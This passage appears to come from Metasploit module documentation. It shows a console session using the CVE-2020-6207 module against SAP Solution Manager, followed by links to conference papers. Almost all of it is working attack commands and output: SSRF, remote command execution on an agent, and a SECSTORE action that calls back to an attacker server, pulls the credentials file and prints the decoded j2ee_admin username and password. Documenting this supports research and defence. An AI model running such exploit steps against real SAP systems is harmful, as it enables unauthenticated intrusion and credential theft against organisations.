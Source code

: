 ```
Connected Agents List
=====================

 Server Name   Host Name              Instance Name  OS Name                 Java Version
 -----------   ---------              -------------  -------                 ------------
 test_windows  sap731.corp.test.com   SMDA97         Windows Server 2008 R2  1.6.0_29
 test_linux    saperp7.corp.test.com  SMDA98         Linux                   1.8.0_25

[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION SSRF
ACTION => SSRF
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
AGENT => test_linux
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SSRF_METHOD PUT
SSRF_METHOD => PUT
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SSRF_URI http://192.168.50.3:7777/
SSRF_URI => http://192.168.50.3:7777/
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Enable EEM on agent: test_linux
[*] Start script: IqsDdgpc5Iwu with SSRF payload on agent: test_linux
[*] Stop script: IqsDdgpc5Iwu on agent: test_linux
[*] Delete script: IqsDdgpc5Iwu on agent: test_linux
[+] Send SSRF: 'PUT http://192.168.50.3:7777/ HTTP/1.1' from agent: test_linux
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION EXEC
ACTION => EXEC
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
AGENT => test_linux
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set COMMAND ping -c 4 192.168.50.3
COMMAND => ping -c 4 192.168.50.3
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Enable EEM on agent: test_linux
[*] Start script: Lu5BnHgzVehn with RCE payload on agent: test_linux
[*] Stop script: Lu5BnHgzVehn on agent: test_linux
[*] Delete script: Lu5BnHgzVehn on agent: test_linux
[+] Execution command: 'ping -c 4 192.168.50.3' on agent: test_linux
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION SECSTORE
ACTION => SECSTORE
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
AGENT => test_linux
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SRVHOST 192.168.50.3
SRVHOST => 192.168.50.3
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Enable EEM on agent: test_linux
[*] Using URL: http://192.168.50.3:8000/ginMlA2izrNi
[*] Start script: ginMlA2izrNi with payload for retrieving SolMan credentials file from agent: test_linux
[*] Received HTTP request from agent test_linux - 172.16.30.14
[+] Successfully retrieved file /usr/sap/DAA/SMDA98/SMDAgent/configuration/secstore.properties from agent: test_linux saved in: /Users/vladimir/.msf4/loot/20210327204344_SAP_TEST_172.16.30.14_smdagent.secstor_025841.txt
[+] Successfully encoded credentials for SolMan server: 172.16.30.46:50000 from agent: test_linux - 172.16.30.14
[+] SMD Username: j2ee_admin
[+] SMD Password: asdQWE123
[*] Stop script: ginMlA2izrNi on agent: test_linux
```

[1]: https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf
[2]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[3]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/
